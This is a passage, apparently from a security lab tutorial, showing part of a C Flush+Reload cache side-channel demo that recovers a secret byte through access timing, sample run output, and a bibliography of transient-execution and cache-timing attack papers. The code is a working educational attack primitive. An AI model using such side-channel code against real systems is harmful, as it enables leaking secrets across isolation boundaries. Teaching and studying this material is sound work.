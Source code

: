 ```c
{
    temp = array[secret * 4096 + DELTA];
}

void reloadSideChannel()
{
    unsigned int junk = 0;
    register uint64_t time1, time2;
    volatile uint8_t *addr;
    int i;
    for (i = 0; i < 256; i++) {
        addr = &array[i * 4096 + DELTA];
        time1 = __rdtscp(&junk);
        junk = *addr;
        time2 = __rdtscp(&junk) - time1;
        if (time2 <= CACHE_HIT_THRESHOLD) {
            printf("array[%d * 4096 + %d] is in cache!\n", i, DELTA);
            printf("The secret is %d.\n", i);
        }
    }
}

int main(int argc, const char **argv)
{
    flushSideChannel();
    getSecret();
    reloadSideChannel();
    return 0;
}
```

Compile the program and run it multiple times:
```console
$ gcc -march=native FlushReload.c -o FlushReload
$ ./FlushReload
array[94 * 4096 + 1024] is in cache!
The secret is 94.
$ ./FlushReload
$ ./FlushReload
array[94 * 4096 + 1024] is in cache!
The secret is 94.
$ ./FlushReload
array[94 * 4096 + 1024] is in cache!
The secret is 94.
$ ./FlushReload
array[94 * 4096 + 1024] is in cache!
The secret is 94.
$ ./FlushReload
array[94 * 4096 + 1024] is in cache!
The secret is 94.
```
Note that in the second program run, no secret value was identified. This is the noisy nature of side channels.


[^intro1]: Claudio Canella, Jo Van Bulck, Michael Schwarz, Moritz Lipp, Benjamin von Berg, Philipp Ortner, Frank Piessens, Dmitry Evtyushkin, and Daniel Gruss, "A Systematic Evaluation of Transient Execution Attacks and Defenses," In *Proceedings of the 28th USENIX Security Symposium*, August 14-16, 2019, Santa Clara, CA, USA.
[^1]: Colin Percival, "Cache Missing for Fun and Profit," In *BSDCan 2005*, Ottawa, CA, 2005.
[^2]: Matt Miller, "Mitigating Speculative Execution Side Channel Hardware Vulnerabilities," [https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/](https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/), March 15, 2018.
[^3]: Daniel J. Bernstein, "Cache-Timing Attacks on AES," [https://cr.yp.to/antiforgery/cachetiming-20050414.pdf](https://cr.yp.to/antiforgery/cachetiming-20050414.pdf), April 2005.
[^4]: David Gullasch, Endre Bangerter, and Stephen Krenn, "Cache Games &mdash; Bringing Access-Based Cache Attacks on AES to Practice," In *2011 IEEE Symposium on Security and Privacy*, May 22-25, 2011, Oakland, CA, USA.
[^5]: [Eran Tromer](http://www.cs.tau.ac.il/~tromer/cache/), Dag Arne Osvik, and Adi Shamir, "Efficient Cache Attacks on AES, and Countermeasures," *Journal of Cryptology*, Vol. 23, No. 1, 37-71, Springer, 2010.
[^6]: Fangfei Liu, Yuval Yarom, Qian Ge, Gernot Heiser, Ruby B. Lee, "Last-Level Cache Side-Channel Attacks are Practical," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^7]: Gorka Irazoqui, Thomas Eisenbarth, and Berk Sunar, "S&dollar;A: A Shared Cache Attack that Works Across Cores and Defies VM Sandboxing &mdash;&mdash; and its Application to AES," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^8]: Yuval Yarom and Katrina Falkner, "Flush+Reload: A High Resolution, Low Noise, L3 Cache Side-Channel Attack," In *Proceedings of the 23rd USENIX Security Symposium*, August 20-22, 2014, San Diego, CA, USA.
[^9]: Jann Horn, Google Project Zero, "Reading Privileged Memory with a Side-Channel," [https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html).
[^10]: Tao Zhang, Kenneth Koltermann, and Dmitry Evtyushkin, "Exploring Branch Predictors for Constructing Transient Execution Trojans," In *ASPLOS'20: Proceedings of the Twenty-Fifth International Conference on Architectural Support for Programming Languages and Operating Systems*, March 16-20, 2020, Lausanne, Switzerland.
[^11]: Nadav Amit, Fred Jacobs, and Michael Wei, "JumpSwitches: Restoring the Performance of Indirect Branches in the Era of Spectre," In *Proceedings of the 2019 USENIX Annual Technical Conference*, July 10-12, 2019, Renton, WA, USA.
[^12]: Dmitry Evtyushkin, Dmitry Ponomarev, and Nael Abu-Ghazaleh, "Jump over ASLR: Attacking Branch Predictors to Bypass ASLR," In *2016 49th Annual IEEE/ACM International Symposium on Microarchitecture (MICRO)*, October 15-19, 2016, Taipei, Taiwan, China.
[^13]: Return Stack Buffer Underflow / CVE-2022-29901, CVE-2022-28693 / INTEL-SA-00702, [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html).
[^14]: Esmaeil Mohammadian Koruyeh, Khaled N. Khasawneh, Chengsu Song, and Nael Abu-Ghazaleh, "Spectre Returns! Speculation Attacks Using the Return Stack Buffer," *WOOT'18: Proceedings of the 12th USENIX Conference on Offensive Technologies*, August 2018.